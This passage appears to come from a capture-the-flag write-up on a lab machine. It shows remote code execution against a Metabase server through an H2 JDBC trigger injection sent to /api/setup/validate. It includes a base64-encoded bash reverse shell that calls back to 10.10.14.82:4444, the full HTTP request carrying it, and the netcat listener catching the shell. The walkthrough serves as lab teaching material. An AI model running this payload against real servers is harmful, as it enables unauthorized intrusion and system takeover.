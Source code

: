 ```http
}
```

My web server got a call.

```bash
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.35.98 - - [20/Jan/2024 15:49:04] "GET / HTTP/1.1" 200 -
```

I had confirmation that I could run code on the server. I used it to get a remote shell.

I encoded the command.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.82/4444 0>&1  ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODIvNDQ0NCAwPiYxICAK
```

And I sent it to the server.

```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cookie: metabase.DEVICE=f1fc7d2a-89c9-4ca7-9e64-6fc1cb41ecea
Content-Type: application/json
Content-Length: 508

{
  "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
  "details": {
    "details": {
      "db": "zip:/app/metabase.jar!/sample-database.db;TRACE_LEVEL_SYSTEM_OUT=0\\;CREATE TRIGGER JTNMEYESRPXS BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODIvNDQ0NCAwPiYxICAK}|{base64,-d}|{bash,-i}')\n$$--=x",
      "advanced-options": "False",
      "ssl": "True"
    },
    "name": "x",
    "engine": "h2"
  }
}
```

I was in.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.82] from (UNKNOWN) [10.129.35.58] 34134
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
a5db4c9d41d3:/$ id
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```
